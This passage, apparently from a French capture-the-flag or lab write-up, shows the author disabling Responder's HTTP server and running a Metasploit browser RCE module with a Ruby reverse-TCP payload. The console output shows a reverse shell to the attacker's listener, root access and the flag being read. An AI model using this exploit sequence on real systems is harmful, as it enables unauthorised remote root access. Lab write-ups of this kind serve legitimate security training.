 Du coup il faut s'assurer que `Responder` ne monopolise pas le port 80, ce que l'on fait en mettant `HTTP` à `Off` dans `/etc/responder/Responder.conf`.

Ensuite j'utilise le module Metasploit avec les options suivantes :

```
msf6 exploit(multi/browser/msfd_rce_browser) > show options

Module options (exploit/multi/browser/msfd_rce_browser):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REMOTE_IP    127.0.0.1        yes       Remote IP address when called from victim
   REMOTE_PORT  55554            yes       Remote port the service is running at
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      80               yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH      /                no        The URI to use for this exploit (default is random)


Payload options (ruby/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.79    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/browser/msfd_rce_browser) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.56.79:4444 
msf6 exploit(multi/browser/msfd_rce_browser) > [*] Using URL: http://192.168.56.79/
[*] Server started.
[*] 192.168.56.78    msfd_rce_browser - 192.168.56.78    msfd_rce_browser Sending HTML...
[*] 192.168.56.78    msfd_rce_browser - 192.168.56.78    msfd_rce_browser Sending HTML...
[*] Command shell session 2 opened (192.168.56.79:4444 -> 192.168.56.78:53728)
msf6 exploit(multi/browser/msfd_rce_browser) > sessions -i 2
[*] Starting interaction with 2...

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag.txt
cat flag.txt
89e1d7a61d87b
```
